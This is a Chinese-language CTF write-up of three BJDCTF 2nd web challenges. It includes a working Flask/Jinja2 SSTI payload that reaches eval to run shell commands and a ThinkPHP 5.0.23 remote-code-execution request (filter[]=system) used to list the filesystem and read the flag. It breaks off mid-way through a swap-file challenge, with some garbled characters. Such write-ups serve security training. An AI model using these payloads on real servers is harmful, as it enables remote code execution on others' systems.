 # WEB
## [BJDCTF 2nd]fake google
打开是google搜索页面，尝试ssti：
```
{{7*7}}
```
成功，猜测是flask，使用大师傅的任意代码执行poc（同[GYCTF2020]FlaskApp）：
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("ls /").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
得到目录：
```
app bd_build bin boot dev etc flag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 
```
`cat /flag`即可得到flag

----
## [BJDCTF 2nd]old-hack
进去提示是thinkphp，然后我们尝试查看phpinfo：
```
?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`
```
最底部得到thinkphp版本V5.0.23，搜索后发现一个[RCE漏洞](https://blog.csdn.net/qq_38807738/article/details/86777541)，尝试使用payload：
```
Header: Content-Type: application/x-www-form-urlencoded
GET: /index.php?s=captcha
POST: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls /
```
找到flag文件，查看得到flag：
```
POST: _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=cat /flag
```

----
## [BJDCTF 2nd]duangShell
打开后提示有swp文件，尝试后发现是`.index.php.swp`，还原：
```
vi -r index.php.swp
```
得到源码：
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>give me a girl</title>
</head>
<body>
    <center><h1>ç��çˆ±ç½‘</h1></center>
</body>
```